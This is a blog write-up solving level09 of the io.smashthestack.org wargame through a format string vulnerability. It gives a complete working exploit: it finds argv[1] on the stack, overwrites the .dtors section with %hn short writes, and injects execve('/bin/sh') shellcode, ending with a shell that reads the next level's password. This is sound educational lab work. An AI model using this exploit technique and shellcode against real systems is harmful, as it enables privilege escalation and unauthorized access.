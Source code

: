 ```yaml
---
author: alvaro
comments: true
layout: post
title: Format Strings - Level09 Smash the Stack
categories:
- Archive
tags:
- security
---
```


The topic for this entry is about format string vulnerability. The vulnerability appears when we use functions as `printf` and so on wrongly.

```C
printf("%s", buf);  //Good
printf(buf); // wrong - What would happen if buf is "%x%x%x"?
```

When we call the latest printf call we are going to read from the stack. The layout would be the following

```
     Top of the Stack
-------------------------
|       Address of buf  |
-------------------------
|       Value of %x     |
-------------------------
|       Value of %x     |
-------------------------
|       Value of %x     |
-------------------------
|        ....           |
-------------------------
  Bottom of the Stack

```

The fun of this is that you can read, write on whatever direction you want. I am not going to write about how to do it since other have written before about [this](http://inst.eecs.berkeley.edu/~cs161/sp08/Notes/formatstring-1.2.pdf).

The code to exploit is the level09 from [io.smashthestack.org](http://io.smashthestack.org).


```C
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
	int  pad = 0xbabe;
	char buf[1024];
	strncpy(buf, argv[1], sizeof(buf) - 1);

	printf(buf);

	return 0;
}
```

```
level9@io:/levels$ ./level09 AAAA%x%x%x%x
AAAAbffffe343ff160d7c41414141
level9@io:/levels$ ./level09 AAAA4%4\$x
AAAA441414141
```

The idea is instead of `AAAA` that does nothing, write an interesting direction using `%n` to alter the normal execution of our program. There are different paths to follow to exploit this little code but I am going to use `.dtors` section. For those that don't know about `.dtors` is a section that all binaries on linux compiled with `gcc` have it. This section has an array of functions that will be called when main function exits.

```
level9@io:/levels$ nm level09
....
080494d4 d __DTOR_END__
080494d0 d __DTOR_LIST__
080484c4 r __FRAME_END__
....

level9@io:/levels$ objdump -h level09

level09:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn
...

 13 .rodata       00000008  080484bc  080484bc  000004bc  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 14 .eh_frame     00000004  080484c4  080484c4  000004c4  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 15 .ctors        00000008  080494c8  080494c8  000004c8  2**2
                  CONTENTS, ALLOC, LOAD, DATA
 16 .dtors        00000008  080494d0  080494d0  000004d0  2**2
                  CONTENTS, ALLOC, LOAD, DATA
....
 ```

 We can see that the section .dtors starts in `0x080494d0`.

 ```
 level9@io:/levels$ objdump -s -j .dtors level09

level09:     file format elf32-i386

Contents of section .dtors:
 80494d0 ffffffff 00000000                    ........
 ```

How we have said before the `.dtors` section is an array of functions. This array always starts with `0xffffffff` and ends with the NULL address `0x00000000`. It's easy to deduce that level09 does not have any destructor. But that is not a reason to give up since this section is writable we are going to be able to write our own destructor :).

The idea is write in `.dtors` with the goal of redirect the flow of the execution to the code that we will write in argv[1]. The first task that we must accomplish is to know the address of argv[1].

```bash
level9@io:/levels$ for ((i = 250; i < 330; i++)); do echo -n "$i: " && ./level09 "%$i\$s" && echo -n $'\n' ; done

294: �É�
295: ,�
296: Segmentation fault
297: 1�^����PTRh
298: (null)
299: ������������U���=Е
300: U���(
301: Segmentation fault
302: 8���B���
303: U��WVS�O
304: U��]Ít&
305: U��WV1�S辊
306:���
307:
308: Segmentation fault
309: ./level09
310: %310$s
311: (null)
312: TERM=xterm-256color
313: SHELL=/bin/bash
314: SSH_CLIENT=88.22.21.50 50860 22
315: OLDPWD=/tmp
316: SSH_TTY=/dev/pts/5
317: USER=level9
318: MAIL=/var/mail/level9
319: PATH=/usr/local/radare/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
320: PWD=/levels
321: LANG=en_GB.UTF-8
322: SHLVL=1
323: HOME=/home/level9
324: LANGUAGE=en_GB:en
325: LOGNAME=level9
326: SSH_CONNECTION=88.22.21.50 50860 10.16.0.102 22
327: LC_CTYPE=es_ES.UTF-8
328: _=./level09
329: (null)

level9@io:/levels$ ./level09 %310\$x
bffffe42
```

Basically we have walked through the stack to read everything from it to extract where resides argv[1]. Using direct parameter access we know that argv[1] is in 310th position and around `0xbffffe42`.
The latest direction will vary regarding how many data we write. As much data we write in argv[1] the lower the address will be.

Using the short write we are able to write two bytes so we are going to need two directions to write in it followed by the payload.

```
\xd6\x94\x04\x08\xd4\x94\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

`\xd6\x94\x04\x08` is to write `bfff` and in `\xd4\x94\x04\x08` to write the lower bytes of argv[1]'s address. We should know how much characters we need before to use `%n` to write the desire number. The payload has a length of `0x38`.

```
level9@io:/levels$ gdb -q
(gdb) p 0xbfff - 0x38
$1 = 49095
(gdb) p 0xfe42 - 0xbfff
$2 = 15939
```

We are going to need 49095 more characters before to use `%n` to write `0xbfff` in `0x080494d6` and about 15939 to write `fe42` in `0x080494d4` although that will not be the exact value we will need to write. All this can be accomplished using the width specifier.

```
./level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")%49095x%4\$hn

```

This would be the first part of our payload. The problem is that we don't know where argv[1] is in the memory since the array has grown. But we can deduce it using format string.

```
./level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")%49095x%4\$hx%15939x%310\$hx

.....
3fffdf6
```

It's means that in `0xbffffdf6` is our argv[1].

```
level9@io:/levels$ gdb -q
(gdb) p 0xfdf6 - 0xbfff
$1 = 15863
```

The problem is that if we write `fdf6` the flow of the program will go at the beginning of argv[1] but the initial part are the directions of `.dtors`. The direction to write would be around `0xbffffdfa` where our payload really starts and it begins with a nop slide to augment our likelihood of success.

```
(gdb) p 0xfdfa - 0xbfff
$1 = 15867
```

And there it is, we have everything to exploit the vulnerability.

```


./level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")%49095x%4\$hn%15867x%5\$hn

sh-4.2$ whoami
level10
sh-4.2$ cat /home/level10/.pass
Os**********
```


{% include twitter_plug.html %}
